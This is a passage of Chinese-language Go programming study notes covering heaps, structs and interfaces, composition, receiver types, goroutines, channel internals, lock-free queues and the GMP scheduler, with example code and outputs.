    for !heap.Empty() {
        val, _ := heap.Pop()
        fmt.Println("弹出:", val) // 1, 1, 3, 4, 5 (升序)
    }
    
    // 自定义比较器（最大堆）
    maxHeap := binaryheap.NewWith(func(a, b interface{}) int {
        return utils.IntComparator(b, a) // 反转比较
    })
    
    maxHeap.Push(3)
    maxHeap.Push(1)
    maxHeap.Push(4)
    
    for !maxHeap.Empty() {
        val, _ := maxHeap.Pop()
        fmt.Println("最大堆弹出:", val) // 4, 3, 1 (降序)
    }
}
```


### **面向对象OOP**

> struct/interface，组合的优缺点，值方法和指针方法区别。
>
> object-oriented programming

Go语言中的面向对象特性，包括struct、interface、组合和方法接收器。

#### **1. Struct（结构体）**

**基本定义**

```go
// 结构体定义
type Person struct {
    Name string
    Age  int
    Email string
}

// 使用
func main() {
    // 创建实例
    p1 := Person{"Alice", 25, "alice@example.com"}
    p2 := Person{
        Name: "Bob", 
        Age: 30,
        Email: "bob@example.com",
    }
    
    // 访问字段
    fmt.Println(p1.Name) // Alice
    p1.Age = 26          // 修改字段
}
```

**方法定义**

```go
// 值接收器方法
func (p Person) SayHello() string {
    return fmt.Sprintf("Hello, I'm %s, %d years old", p.Name, p.Age)
}

// 指针接收器方法  
func (p *Person) HaveBirthday() {
    p.Age++  // 修改原对象
}

// 使用
p := Person{"Charlie", 20}
fmt.Println(p.SayHello())  // Hello, I'm Charlie, 20 years old
p.HaveBirthday()           // 年龄增加
fmt.Println(p.Age)         // 21
```

#### **2. Interface（接口）**

```go
// 定义接口
type Speaker interface {
    Speak() string
}

type Mover interface {
    Move()
}

// 实现接口（隐式实现）
type Dog struct {
    Name string
}

func (d Dog) Speak() string {
    return "Woof!"
}

func (d *Dog) Move() {
    fmt.Printf("%s is running\n", d.Name)
}

// 使用接口
func makeSound(s Speaker) {
    fmt.Println(s.Speak())
}

func main() {
    dog := Dog{"Buddy"}
    makeSound(dog)  // Woof!
    
    var mover Mover = &dog  // 注意：Move方法是指针接收器
    mover.Move()            // Buddy is running
}
```


#### **3. 组合（Composition）**

**组合 vs 继承**

```go
// 基础结构体
type Animal struct {
    Name string
    Age  int
}

func (a Animal) Eat() {
    fmt.Printf("%s is eating\n", a.Name)
}

// 通过组合实现"继承"
type Cat struct {
    Animal  // 嵌入，相当于继承Animal的字段和方法
    Breed   string
}

type Bird struct {
    Animal
    CanFly bool
}

// 使用
func main() {
    cat := Cat{
        Animal: Animal{Name: "Whiskers", Age: 2},
        Breed:  "Siamese",
    }
    
    cat.Eat()  // 可以直接调用嵌入的方法
    fmt.Println(cat.Name) // 直接访问嵌入的字段
}
```

**优点**：

```go
// 1. 代码复用
type Logger struct {
    Level string
}

func (l Logger) Log(msg string) {
    fmt.Printf("[%s] %s\n", l.Level, msg)
}

type Service struct {
    Logger  // 复用日志功能
    Name    string
}

// 2. 灵活性：可以组合多个类型
type AdvancedService struct {
    Logger
    Metrics
    Database
    // 可以自由组合所需功能
}

// 3. 编译时安全
service := Service{
        Logger: Logger{Level: "INFO"},  // 显式指定嵌入字段
        Name:   "API",
    }
service.Log("Starting service")  // 编译时检查
```


**缺点**：

```go
// 1. 方法冲突
type A struct{}
func (A) Method() { fmt.Println("A") }

type B struct{}  
func (B) Method() { fmt.Println("B") }

type C struct {
    A
    B  // 编译错误：ambiguous selector C.Method
}


// 2. 重写父类方法需要显式定义
type SpecialCat struct {
    Cat
}

// 如果要"重写"Eat方法，需要重新定义
func (sc SpecialCat) Eat() {
    fmt.Printf("Special cat %s is eating specially\n", sc.Name)
}
```


#### **4. 值方法 vs 指针方法**

**基本区别**

```go
type Counter struct {
    value int
}

// 值接收器方法
func (c Counter) GetValue() int {
    return c.value  // 操作副本
}

func (c Counter) IncrementValue() Counter {
    c.value++       // 修改副本，不影响原对象
    return c
}

// 指针接收器方法  
func (c *Counter) IncrementPointer() {
    c.value++       // 修改原对象
}

func (c *Counter) SetValue(newValue int) {
    c.value = newValue  // 修改原对象
}


func main() {
    counter := Counter{value: 10}
    
    // 值方法：操作副本
    result := counter.IncrementValue()
    fmt.Println("Original:", counter.value)     // 10 (未改变)
    fmt.Println("Result:", result.value)         // 11 (副本改变)
    
    // 指针方法：操作原对象
    counter.IncrementPointer()
    fmt.Println("After pointer method:", counter.value) // 11 (原对象改变)
    
    // Go自动处理指针/值调用
    var c1 Counter
    var c2 *Counter = &Counter{}
    
    c1.IncrementPointer()  // 值变量调用指针方法：Go自动转为(&c1).IncrementPointer()
    c2.GetValue()          // 指针变量调用值方法：Go自动转为(*c2).GetValue()
}
```



Go语言的**实用主义哲学**：在保证安全的前提下，尽可能让代码简洁易写！

1. ✅ **值变量可以调用指针方法** - 这是Go语言从一开始就有的特性
2. ✅ **自动转换条件**：值必须可寻址（变量、字面量、可寻址的表达式）
3. ✅ **设计目的**：让代码更简洁，避免繁琐的 `&`和 `*`

#### 最佳实践



**组合使用原则**

```go
// 好的组合：清晰的层次关系
type Service struct {
    Repository  // 数据访问层
    Logger      // 日志功能
    Cache       // 缓存功能
}

// 不好的组合：模糊的关系
type Service struct {
    RepoAndLoggerAndCache // 职责不清晰
}

// 接口组合
type ReadWriter interface {
    Reader
    Writer  // 组合多个接口
}
```

**性能考虑**

```go
// 小结构体：值接收器可能更高效
type Point struct { X, Y int }
func (p Point) Distance() float64 { ... }  // 在栈上操作，高效

// 大结构体：指针接收器更高效  
type BigData struct { data [1000000]int }
func (bd *BigData) Process() { ... }  // 避免复制开销
```

### **并发**

> goroutine/channels（源码走读），协程生命周期，无锁FIFO实现

```
核心要点​​
​​Goroutine​​：轻量级线程，由Go运行时管理
​​Channel​​：基于CSP模型的通信原语，内部使用锁和等待队列
​​生命周期​​：通过context和waitgroup管理
​​无锁编程​​：使用CAS操作或channel实现无锁数据结构
```


#### **Goroutine 基础**

**Goroutine 创建和生命周期**

```go
package main

import (
    "fmt"
    "runtime"
    "time"
)

func simpleGoroutine() {
    fmt.Println("Goroutine started")
    time.Sleep(100 * time.Millisecond)
    fmt.Println("Goroutine finished")
}

func main() {
    // 查看当前Goroutine数量， main本身也是一个协程
    fmt.Printf("初始Goroutine数: %d\n", runtime.NumGoroutine())
    
    // 启动goroutine
    go simpleGoroutine()
    
    // 给goroutine时间执行
    time.Sleep(200 * time.Millisecond)
    fmt.Printf("结束Goroutine数: %d\n", runtime.NumGoroutine())
}
```

**Goroutine 状态跟踪**

```go
func trackGoroutine(id int, done chan bool) {
    fmt.Printf("Goroutine %d: 开始\n", id)
    
    // 模拟工作
    time.Sleep(time.Duration(id) * 100 * time.Millisecond)
    
    fmt.Printf("Goroutine %d: 完成\n", id)
    done <- true
}

func main() {
    const numGoroutines = 5
    done := make(chan bool, numGoroutines)
    
    // 启动多个goroutine
    for i := 1; i <= numGoroutines; i++ {
        go trackGoroutine(i, done)
    }
    
    // 等待所有完成
    for i := 0; i < numGoroutines; i++ {
        <-done
    }
    fmt.Println("所有goroutine完成")
}
```


#### **Channel 深入解析**

**Channel 内部结构**

循环队列

```go
// runtime/chan.go 中的核心结构（简化）
type hchan struct {
    qcount   uint           // 队列中数据总数
    dataqsiz uint           // 循环队列大小
    buf      unsafe.Pointer // 指向队列数组
    elemsize uint16         // 元素大小
    closed   uint32         // 是否关闭
    elemtype *_type         // 元素类型
    sendx    uint           // 发送索引
    recvx    uint           // 接收索引
    recvq    waitq          // 等待接收的goroutine队列
    sendq    waitq          // 等待发送的goroutine队列
    lock     mutex          // 互斥锁
}

type waitq struct {
    first *sudog  // 等待队列头
    last  *sudog  // 等待队列尾
}
```

**Channel 操作（源码流程）**

```go
// 发送操作 ch <- value
func chansend(c *hchan, ep unsafe.Pointer, block bool, callerpc uintptr) bool {
    // 1. 检查channel是否为nil
    if c == nil {
        if !block {
            return false
        }
        gopark(nil, nil, waitReasonChanSendNilChan, traceEvGoStop, 2)
        throw("unreachable")
    }
    
    // 2. 快速路径：无等待接收者，缓冲区有空位
    if !block && c.closed == 0 && ((c.dataqsiz == 0 && c.recvq.first == nil) ||
        (c.dataqsiz > 0 && c.qcount == c.dataqsiz)) {
        return false
    }
    
    // 3. 加锁
    lock(&c.lock)
    
    // 4. 检查是否已关闭
    if c.closed != 0 {
        unlock(&c.lock)
        panic(plainError("send on closed channel"))
    }
    
    // 5. 尝试直接发送给等待的接收者
    if sg := c.recvq.dequeue(); sg != nil {
        send(c, sg, ep, func() { unlock(&c.lock) }, 3)
        return true
    }
    
    // 6. 放入缓冲区
    if c.qcount < c.dataqsiz {
        // 有缓冲区空间
        qp := chanbuf(c, c.sendx)
        typedmemmove(c.elemtype, qp, ep)
        c.sendx++
        if c.sendx == c.dataqsiz {
            c.sendx = 0
        }
        c.qcount++
        unlock(&c.lock)
        return true
    }
    
    // 7. 阻塞等待
    gp := getg()
    mysg := acquireSudog()
    mysg.elem = ep
    mysg.g = gp
    mysg.c = c
    gp.waiting = mysg
    gp.param = nil
    c.sendq.enqueue(mysg)
    goparkunlock(&c.lock, waitReasonChanSend, traceEvGoBlockSend, 3)
    
    return true
}
```

1. 前置检查

- **nil channel 检查**：向 nil channel 发送会永久阻塞
- **快速路径检查**：非阻塞模式下检查是否可立即发送

2. 加锁保护

- 获取 channel 的互斥锁，确保线程安全

3. 状态验证

- **关闭检查**：向已关闭的 channel 发送会 panic

4. 发送优先级策略（按顺序尝试）

第一优先级：直接发送给等待的接收者

- 如果有 goroutine 在 recvq 中等待接收
- 直接唤醒接收者，数据不经过缓冲区
- **最高效的路径**：零拷贝传输

第二优先级：写入缓冲区

- 如果缓冲区未满，将数据写入循环队列
- 更新发送索引 sendx 和元素计数 qcount
- 处理循环队列的环绕逻辑

第三优先级：阻塞等待

- 如果上述路径都不可用，当前 goroutine 进入等待
- 将 goroutine 封装为 sudog 加入 sendq 队列
- 调用 gopark 挂起当前 goroutine


#### **协程生命周期管理**

##### **完整的生命周期示例**

```go
package main

import (
    "context"
    "fmt"
    "sync"
    "time"
)

// Goroutine生命周期管理器
type GoroutineManager struct {
    wg     sync.WaitGroup
    ctx    context.Context
    cancel context.CancelFunc
}

func NewGoroutineManager() *GoroutineManager {
    ctx, cancel := context.WithCancel(context.Background())
    return &GoroutineManager{
        ctx:    ctx,
        cancel: cancel,
    }
}

// 启动受管理的goroutine
func (gm *GoroutineManager) Start(name string, work func(ctx context.Context)) {
    gm.wg.Add(1)
    
    go func() {
        defer gm.wg.Done()
        defer fmt.Printf("Goroutine %s: 退出\n", name)
        
        fmt.Printf("Goroutine %s: 启动\n", name)
        
        // 工作循环
        for {
            select {
            case <-gm.ctx.Done(): // 收到停止信号
                fmt.Printf("Goroutine %s: 收到停止信号\n", name)
                return
            default:
                // 执行工作
                work(gm.ctx)
                
                // 防止空转
                time.Sleep(100 * time.Millisecond)
            }
        }
    }()
}

// 优雅停止所有goroutine
func (gm *GoroutineManager) Stop() {
    fmt.Println("发送停止信号...")
    gm.cancel()  // 发送停止信号
    
    // 等待所有goroutine退出
    done := make(chan struct{})
    go func() {
        gm.wg.Wait()
        close(done)
    }()
    
    // 带超时的等待
    select {
    case <-done:
        fmt.Println("所有goroutine已退出")
    case <-time.After(3 * time.Second):
        fmt.Println("超时，强制退出")
    }
}

func main() {
    manager := NewGoroutineManager()
    
    // 启动多个工作goroutine
    manager.Start("worker1", func(ctx context.Context) {
        fmt.Println("Worker1 正在工作...")
        time.Sleep(500 * time.Millisecond)
    })
    
    manager.Start("worker2", func(ctx context.Context) {
        fmt.Println("Worker2 正在工作...")
        time.Sleep(300 * time.Millisecond)
    })
    
    // 运行一段时间后停止
    time.Sleep(2 * time.Second)
    manager.Stop()
}
```

##### **状态机**

```go
package main

import (
	"fmt"
	"sync"
	"time"
)

// Goroutine生命周期状态
type GoroutineState int

const (
	StateNew GoroutineState = iota
	StateRunnable
	StateRunning
	StateBlocked
	StateDead
)

func (s GoroutineState) String() string {
	switch s {
	case StateNew:
		return "New"
	case StateRunnable:
		return "Runnable"
	case StateRunning:
		return "Running"
	case StateBlocked:
		return "Blocked"
	case StateDead:
		return "Dead"
	default:
		return "Unknown"
	}
}

type GoroutineTracker struct {
	mu    sync.Mutex
	state map[int]GoroutineState // goroutine ID -> 状态
}

func NewGoroutineTracker() *GoroutineTracker {
	return &GoroutineTracker{
		state: make(map[int]GoroutineState),
	}
}

func (gt *GoroutineTracker) Track(goid int, state GoroutineState) {
	gt.mu.Lock()
	defer gt.mu.Unlock()

	prevState := gt.state[goid]
	gt.state[goid] = state

	fmt.Printf("Goroutine %d: 状态 %s -> %s\n", goid, prevState, state)
}

func (gt *GoroutineTracker) GetState(goid int) GoroutineState {
	gt.mu.Lock()
	defer gt.mu.Unlock()
	return gt.state[goid]
}

func (gt *GoroutineTracker) PrintAllStates() {
	gt.mu.Lock()
	defer gt.mu.Unlock()

	fmt.Println("\n=== 所有 Goroutine 状态 ===")
	for goid, state := range gt.state {
		fmt.Printf("Goroutine %d: %s\n", goid, state)
	}
	fmt.Println("==========================")
}

// 模拟获取 goroutine ID 的简单方法（生产环境建议使用更可靠的方法）
var (
	goroutineIDCounter int
	idMutex            sync.Mutex
)

func getGoroutineID() int {
	idMutex.Lock()
	defer idMutex.Unlock()
	goroutineIDCounter++
	return goroutineIDCounter
}

// 示例1: 基本的 goroutine 生命周期跟踪
func basicExample(tracker *GoroutineTracker) {
	fmt.Println("=== 示例1: 基本生命周期 ===")

	goid := getGoroutineID()
	tracker.Track(goid, StateNew)

	go func(id int) {
		tracker.Track(id, StateRunnable)
		tracker.Track(id, StateRunning)

		// 模拟工作
		time.Sleep(100 * time.Millisecond)

		// 模拟阻塞（如 channel 操作）
		tracker.Track(id, StateBlocked)
		time.Sleep(50 * time.Millisecond)
		tracker.Track(id, StateRunning)

		// 工作完成
		time.Sleep(100 * time.Millisecond)
		tracker.Track(id, StateDead)
	}(goid)

	time.Sleep(300 * time.Millisecond)
}

// 示例2: 多个 goroutine 并发跟踪
func concurrentExample(tracker *GoroutineTracker) {
	fmt.Println("\n=== 示例2: 并发 goroutine ===")

	var wg sync.WaitGroup

	for i := 0; i < 3; i++ {
		wg.Add(1)
		goid := getGoroutineID()

		tracker.Track(goid, StateNew)

		go func(id, index int) {
			defer wg.Done()

			tracker.Track(id, StateRunnable)
			tracker.Track(id, StateRunning)

			// 模拟不同的工作负载
			time.Sleep(time.Duration(index*100) * time.Millisecond)

			// 模拟不同的阻塞模式
			if index%2 == 0 {
				tracker.Track(id, StateBlocked)
				time.Sleep(50 * time.Millisecond)
				tracker.Track(id, StateRunning)
			}

			tracker.Track(id, StateDead)
		}(goid, i)
	}

	wg.Wait()
}

// 示例3: Channel 操作导致的阻塞跟踪
func channelBlockingExample(tracker *GoroutineTracker) {
	fmt.Println("\n=== 示例3: Channel 阻塞示例 ===")

	ch := make(chan int, 1)
	var wg sync.WaitGroup

	// 生产者 goroutine
	producerID := getGoroutineID()
	wg.Add(1)
	tracker.Track(producerID, StateNew)

	go func(id int) {
		defer wg.Done()
		tracker.Track(id, StateRunnable)
		tracker.Track(id, StateRunning)

		// 发送数据到 channel
		ch <- 42
		tracker.Track(id, StateRunning)

		// 第二次发送会阻塞（缓冲区已满）
		tracker.Track(id, StateBlocked)
		ch <- 100 // 这会阻塞直到有接收者
		tracker.Track(id, StateRunning)

		close(ch)
		tracker.Track(id, StateDead)
	}(producerID)

	// 消费者 goroutine
	consumerID := getGoroutineID()
	wg.Add(1)
	tracker.Track(consumerID, StateNew)

	go func(id int) {
		defer wg.Done()
		tracker.Track(id, StateRunnable)
		tracker.Track(id, StateRunning)

		// 等待一下让生产者先运行
		time.Sleep(200 * time.Millisecond)

		// 接收数据，解除生产者阻塞
		value := <-ch
		fmt.Printf("接收到值: %d\n", value)

		value = <-ch
		fmt.Printf("接收到值: %d\n", value)

		tracker.Track(id, StateDead)
	}(consumerID)

	wg.Wait()
}

func main() {
	tracker := NewGoroutineTracker()

	// 运行示例
	basicExample(tracker)
	time.Sleep(100 * time.Millisecond)

	concurrentExample(tracker)
	time.Sleep(100 * time.Millisecond)

	channelBlockingExample(tracker)

	// 打印最终状态
	tracker.PrintAllStates()

	fmt.Println("\n=== 程序执行完成 ===")
}

==》
=== 示例1: 基本生命周期 ===
Goroutine 1: 状态 New -> New
Goroutine 1: 状态 New -> Runnable
Goroutine 1: 状态 Runnable -> Running
Goroutine 1: 状态 Running -> Blocked
Goroutine 1: 状态 Blocked -> Running
Goroutine 1: 状态 Running -> Dead

=== 示例2: 并发 goroutine ===
Goroutine 2: 状态 New -> New
Goroutine 3: 状态 New -> New
Goroutine 4: 状态 New -> New
Goroutine 2: 状态 New -> Runnable
Goroutine 2: 状态 Runnable -> Running
Goroutine 2: 状态 Running -> Blocked
Goroutine 3: 状态 New -> Runnable
Goroutine 3: 状态 Runnable -> Running
Goroutine 4: 状态 New -> Runnable
Goroutine 4: 状态 Runnable -> Running
Goroutine 2: 状态 Blocked -> Running
Goroutine 2: 状态 Running -> Dead
Goroutine 3: 状态 Running -> Dead
Goroutine 4: 状态 Running -> Blocked
Goroutine 4: 状态 Blocked -> Running
Goroutine 4: 状态 Running -> Dead

=== 示例3: Channel 阻塞示例 ===
Goroutine 5: 状态 New -> New
Goroutine 6: 状态 New -> New
Goroutine 5: 状态 New -> Runnable
Goroutine 5: 状态 Runnable -> Running
Goroutine 5: 状态 Running -> Running
Goroutine 5: 状态 Running -> Blocked
Goroutine 6: 状态 New -> Runnable
Goroutine 6: 状态 Runnable -> Running
接收到值: 42
接收到值: 100
Goroutine 5: 状态 Blocked -> Running
Goroutine 5: 状态 Running -> Dead
Goroutine 6: 状态 Running -> Dead

=== 所有 Goroutine 状态 ===
Goroutine 4: Dead
Goroutine 5: Dead
Goroutine 6: Dead
Goroutine 1: Dead
Goroutine 2: Dead
Goroutine 3: Dead
==========================

=== 程序执行完成 ===
```


#### **无锁 FIFO 实现**

##### **基于 Channel 的无锁 FIFO**

```go
// 无锁FIFO队列
type LockFreeQueue struct {
    in     chan interface{}
    out    chan interface{}
    buffer []interface{}
}

func NewLockFreeQueue(bufferSize int) *LockFreeQueue {
    q := &LockFreeQueue{
        in:     make(chan interface{}),
        out:    make(chan interface{}, bufferSize),
        buffer: make([]interface{}, 0, bufferSize),
    }
    
    go q.process()
    return q
}

func (q *LockFreeQueue) process() {
    defer close(q.out)
    
    for {
        // 如果缓冲区为空，等待新元素
        if len(q.buffer) == 0 {
            value, ok := <-q.in
            if !ok {
                return // 输入channel关闭
            }
            q.buffer = append(q.buffer, value)
        }
        
        // 尝试发送缓冲区中的元素
        select {
        case q.out <- q.buffer[0]:
            // 成功发送，从缓冲区移除
            q.buffer = q.buffer[1:]
        case value, ok := <-q.in:
            // 收到新元素，加入缓冲区
            if !ok {
                // 输入关闭，但继续处理缓冲区
                continue
            }
            q.buffer = append(q.buffer, value)
        }
    }
}

func (q *LockFreeQueue) Enqueue(value interface{}) {
    q.in <- value
}

func (q *LockFreeQueue) Dequeue() interface{} {
    return <-q.out
}

func (q *LockFreeQueue) Close() {
    close(q.in)
}

// 示例1: 基本使用
func basicExample() {
	fmt.Println("=== 示例1: 基本使用 ===")
	queue := NewLockFreeQueue(5)
	
	// 入队操作
	queue.Enqueue("任务1")
	queue.Enqueue("任务2")
	queue.Enqueue("任务3")
	
	// 出队操作
	fmt.Println("出队:", queue.Dequeue())
	fmt.Println("出队:", queue.Dequeue())
	fmt.Println("出队:", queue.Dequeue())
	
	queue.Close()
}

// 示例2: 并发生产者和消费者
func concurrentExample() {
	fmt.Println("\n=== 示例2: 并发生产消费 ===")
	queue := NewLockFreeQueue(10)
	var wg sync.WaitGroup
	
	// 生产者
	wg.Add(1)
	go func() {
		defer wg.Done()
		for i := 0; i < 5; i++ {
			task := fmt.Sprintf("任务-%d", i)
			queue.Enqueue(task)
			fmt.Printf("生产: %s\n", task)
			time.Sleep(100 * time.Millisecond)
		}
	}()
	
	// 消费者
	wg.Add(1)
	go func() {
		defer wg.Done()
		for i := 0; i < 5; i++ {
			task := queue.Dequeue()
			fmt.Printf("消费: %v\n", task)
			time.Sleep(150 * time.Millisecond)
		}
	}()
	
	wg.Wait()
	queue.Close()
}

func main() {
	// 运行各个示例
	basicExample()
	time.Sleep(100 * time.Millisecond)
	
	concurrentExample()
	time.Sleep(100 * time.Millisecond)
	
	fmt.Println("\n=== 所有示例执行完成 ===")
}

==》
=== 示例1: 基本使用 ===
出队: 任务1
出队: 任务2
出队: 任务3

=== 示例2: 并发生产消费 ===
生产: 任务-0
消费: 任务-0
生产: 任务-1
消费: 任务-1
生产: 任务-2
消费: 任务-2
生产: 任务-3
生产: 任务-4
消费: 任务-3
消费: 任务-4

=== 所有示例执行完成 ===
```

设计特点

1. **无锁设计**: 利用 channel 的天然并发安全性
2. **缓冲区管理**: 内部 slice 作为缓冲区，提高吞吐量
3. **异步处理**: 后台 goroutine 处理入队出队逻辑


##### **基于 CAS 的无锁队列**

> **CAS**（Compare-And-Swap）是一种**原子操作**，用于实现无锁（lock-free）编程。

```go
package main

import (
    "fmt"
    "sync/atomic"
)

func main() {
    var value int32 = 100
    
    // CAS 操作
    swapped := atomic.CompareAndSwapInt32(&value, 100, 200)
    fmt.Printf("CAS 成功: %t, 新值: %d\n", swapped, value) // true, 200
    
    swapped = atomic.CompareAndSwapInt32(&value, 100, 300)
    fmt.Printf("CAS 成功: %t, 值: %d\n", swapped, value) // false, 200
}
```


链表实现，只是通过cas实现无锁。

```go
package main

import (
	"fmt"
	"sync"
	"sync/atomic"
	"time"
	"unsafe"
)

// 无锁队列节点
type node struct {
	value interface{}
	next  unsafe.Pointer // *node
}

// CAS-based 无锁队列
type LockFreeQueueCAS struct {
	head unsafe.Pointer // *node
	tail unsafe.Pointer // *node
}

func NewLockFreeQueueCAS() *LockFreeQueueCAS {
	dummy := &node{}
	return &LockFreeQueueCAS{
		head: unsafe.Pointer(dummy),
		tail: unsafe.Pointer(dummy),
	}
}

func (q *LockFreeQueueCAS) Enqueue(value interface{}) {
	newNode := &node{value: value}

	for {
		tail := atomic.LoadPointer(&q.tail)
		tailNode := (*node)(tail)
		next := atomic.LoadPointer(&tailNode.next)

		if next == nil {
			// 尝试添加新节点
			if atomic.CompareAndSwapPointer(&tailNode.next, nil, unsafe.Pointer(newNode)) {
				// 成功添加，移动tail指针
				atomic.CompareAndSwapPointer(&q.tail, tail, unsafe.Pointer(newNode))
				return
			}
		} else {
			// 帮助其他goroutine完成操作
			atomic.CompareAndSwapPointer(&q.tail, tail, next)
		}
	}
}

func (q *LockFreeQueueCAS) Dequeue() interface{} {
	for {
		head := atomic.LoadPointer(&q.head)
		headNode := (*node)(head)
		tail := atomic.LoadPointer(&q.tail)
		next := atomic.LoadPointer(&headNode.next)

		if head == tail {
			if next == nil {
				return nil // 队列为空
			}
			// 帮助移动tail指针
			atomic.CompareAndSwapPointer(&q.tail, tail, next)
		} else {
			// 尝试移动head指针
			if atomic.CompareAndSwapPointer(&q.head, head, next) {
				nextNode := (*node)(next)
				return nextNode.value
			}
		}
	}
}

// 获取队列长度（近似值，用于调试）
func (q *LockFreeQueueCAS) ApproxLen() int {
	count := 0
	current := (*node)(atomic.LoadPointer(&q.head))

	for atomic.LoadPointer(&current.next) != nil {
		count++
		current = (*node)(atomic.LoadPointer(&current.next))
		if count > 10000 { // 防止无限循环
			break
		}
	}
	return count
}

// 检查队列是否为空
func (q *LockFreeQueueCAS) IsEmpty() bool {
	head := atomic.LoadPointer(&q.head)
	tail := atomic.LoadPointer(&q.tail)
	return head == tail && (*node)(head).next == nil
}

// 示例1: 基本使用
func basicExample() {
	fmt.Println("=== 示例1: 基本使用 ===")
	queue := NewLockFreeQueueCAS()

	// 入队操作
	queue.Enqueue("任务A")
	queue.Enqueue("任务B")
	queue.Enqueue(123)

	fmt.Printf("队列长度: %d\n", queue.ApproxLen())

	// 出队操作
	fmt.Println("出队:", queue.Dequeue())
	fmt.Println("出队:", queue.Dequeue())
	fmt.Println("出队:", queue.Dequeue())
	fmt.Println("空队列:", queue.Dequeue())
}

// 示例2: 并发生产者和消费者
func concurrentExample() {
	fmt.Println("\n=== 示例2: 并发生产消费 ===")
	queue := NewLockFreeQueueCAS()
	var wg sync.WaitGroup
	results := make(chan string, 20)

	// 生产者
	wg.Add(1)
	go func() {
		defer wg.Done()
		for i := 0; i < 5; i++ {
			task := fmt.Sprintf("任务-%d", i)
			queue.Enqueue(task)
			results <- fmt.Sprintf("生产: %s", task)
			time.Sleep(50 * time.Millisecond)
		}
	}()

	// 消费者
	wg.Add(1)
	go func() {
		defer wg.Done()
		for i := 0; i < 5; i++ {
			task := queue.Dequeue()
			if task != nil {
				results <- fmt.Sprintf("消费: %v", task)
			}
			time.Sleep(80 * time.Millisecond)
		}
	}()

	// 打印结果
	wg.Add(1)
	go func() {
		defer wg.Done()
		for i := 0; i < 10; i++ {
			select {
			case result := <-results:
				fmt.Println(result)
			case <-time.After(200 * time.Millisecond):
				return
			}
		}
	}()

	wg.Wait()
}

func main() {
	basicExample()
	time.Sleep(100 * time.Millisecond)

	concurrentExample()
	time.Sleep(100 * time.Millisecond)

	fmt.Println("\n=== 所有测试完成 ===")
}

==》
=== 示例1: 基本使用 ===
队列长度: 3
出队: 任务A
出队: 任务B
出队: 123
空队列: <nil>

=== 示例2: 并发生产消费 ===
生产: 任务-0
生产: 任务-1
消费: 任务-0
生产: 任务-2
生产: 任务-3
消费: 任务-1
生产: 任务-4
消费: 任务-2
消费: 任务-3

=== 所有测试完成 ===
```


### **协程调度器**

> GMP模型，MP数量和调度关系，抢占式调度策略

Go的GMP调度器通过精巧的设计实现了高效的协程调度：

1. **M:N调度**：在少量系统线程上调度大量goroutine
2. **工作窃取**：平衡各P的工作负载
3. **抢占式调度**：防止单个goroutine垄断CPU
4. **网络轮询集成**：高效处理I/O操作

#### GMP模型

**GMP**是 Go 语言并发调度的核心模型：

- **G**- Goroutine（协程）
- **M**- Machine（线程）
- **P**- Processor（处理器）

**简单理解**：P 是"调度员"，M 是"工人"，G 是"任务"。


##### **核心组件关系**

**组件职责**

```
// G (Goroutine) - 轻量级协程
// - 用户级线程，2KB 初始栈
// - 创建成本低，可轻松创建百万个

// M (Machine) - 系统线程
// - 真正的操作系统线程
// - 执行 G 的载体

// P (Processor) - 逻辑处理器
// - 调度 G 到 M 上执行
// - 每个 P 有本地 G 队列
```

**关系图**

```
P1 (Processor)       P2 (Processor)
├── 本地队列          ├── 本地队列
│   ├── G1           │   ├── G5
│   ├── G2           │   └── G6
│   └── G3           └── 运行队列
└── 运行队列              ├── G7
    └── G4               └── G8
    │
    M1 (Thread)         M2 (Thread)
    └── 当前执行 G4       └── 当前执行 G7
```


##### **工作流程**

**3.1 创建 Goroutine**

```go
func main() {
    go task()  // 创建新的 G
}

// 过程：
// 1. 新 G 放入当前 P 的本地队列
// 2. P 调度 M 执行 G
// 3. 如果本地队列满，G 进入全局队列
```

**3.2 调度过程**

```go
// 简化版调度循环
for {
    // 1. 从本地队列取 G
    if g := localQueue.pop(); g != nil {
        execute(g)
        continue
    }
    
    // 2. 从全局队列取 G
    if g := globalQueue.pop(); g != nil {
        execute(g)
        continue
    }
    
    // 3. 从其他 P "偷" G（工作窃取）
    if g := stealFromOtherP(); g != nil {
        execute(g)
        continue
    }
}
```

==》 工作窃取


#### MP数量和调度关系

M（系统线程）数量

```go
// 默认限制
func main() {
    // 查看当前设置
    fmt.Println("GOMAXPROCS:", runtime.GOMAXPROCS(0)) // P的数量
    fmt.Println("NumCPU:", runtime.NumCPU())          // CPU核心数
    
    // M的数量动态变化
    go func() {
        for {
            var mCount int
            // 获取M数量（近似值）
